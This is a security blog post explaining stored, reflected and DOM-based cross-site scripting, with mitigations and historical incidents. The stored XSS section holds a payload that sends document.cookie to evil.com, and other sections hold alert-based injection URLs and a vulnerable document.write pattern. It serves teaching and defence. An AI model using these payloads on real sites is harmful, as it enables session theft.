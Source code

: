 title: "Cross-Site Scripting (XSS): OWASP Top 10 & Real-World Exploitation" date: 2025-07-31 layout: post tag: [OWASP, Web Security, XSS]
<div style="display: flex; gap: 30px; align-items: flex-start; margin-bottom: 30px;">

<div style="flex: 1; background-color: #f9f9f9; padding: 20px; border-left: 5px solid #007acc; border-radius: 6px;">

<strong>Table of Contents</strong>

<ul>
<li><a href="#what-is-cross-site-scripting-xss">What is Cross-Site Scripting (XSS)?</a></li>
<li><a href="#types-of-xss">Types of XSS</a>
<ul>
<li><a href="#1-stored-xss">1. Stored XSS</a></li>
<li><a href="#2-reflected-xss">2. Reflected XSS</a></li>
<li><a href="#3-dom-based-xss">3. DOM-Based XSS</a></li>
</ul>
</li>
<li><a href="#how-xss-attacks-work">How XSS Attacks Work</a></li>
<li><a href="#real-world-examples">Real-World Examples</a></li>
<li><a href="#general-mitigation-strategies">General Mitigation Strategies</a></li>
<li><a href="#conclusion">Conclusion</a></li>
<li><a href="#references">References</a></li>
</ul>
</div>


What is Cross-Site Scripting (XSS)?
Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the OWASP Top 10 due to its high frequency and impact.

Types of XSS
1. Stored XSS
Definition:
Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.

How it works:

Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.

When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.

The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.

Example payload & Mitigation:

HTML

<script>fetch('https://evil.com?cookie=' + document.cookie)</script>

Mitigation: Sanitize and validate all user inputs before storing them; use context-aware output encoding; avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).


2. Reflected XSS
Definition:
Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.

How it works:

Attacker crafts a malicious link containing JavaScript code in a parameter.

Victim clicks the link and sends a request to the vulnerable application.

The application reflects the malicious input in its response, which the browser executes.

Example payload & Mitigation:

Plaintext

https://example.com/search?q=<script>alert('XSS')</script>

Mitigation: Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.
3. DOM-Based XSS
Definition:
DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.

How it works:

Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.

The vulnerable JavaScript code inserts this data directly into the page without escaping.

The browser executes the malicious code.

Example vulnerable code, attack URL & Mitigation:

JavaScript

// Vulnerable code:
document.write(location.hash);

// Attack URL:
https://example.com/page#<script>alert('XSS')</script>

Mitigation: Avoid dangerous DOM manipulation methods like document.write() and innerHTML with untrusted data; use safe DOM APIs like textContent or setAttribute(); sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.
How XSS Attacks Work
Injection: The attacker injects malicious JavaScript into a vulnerable page.

Execution: The victim’s browser renders the page and runs the script.

Impact: The attacker can steal session cookies, perform actions as the user, or spread malware.

Real-World Examples
MySpace Samy Worm (2005): A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.

British Airways Breach (2018): Malicious JavaScript was injected to steal payment details from thousands of customers.

General Mitigation Strategies
Validate and sanitize all user inputs on both client and server.

Use context-specific output encoding.

Enforce a strong Content Security Policy (CSP).

Avoid unsafe JavaScript functions and DOM manipulation methods.

Use security features provided by frameworks.

Regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.

Conclusion
XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.

References

OWASP: Cross-Site Scripting (XSS)

PortSwigger: XSS Cheat Sheet


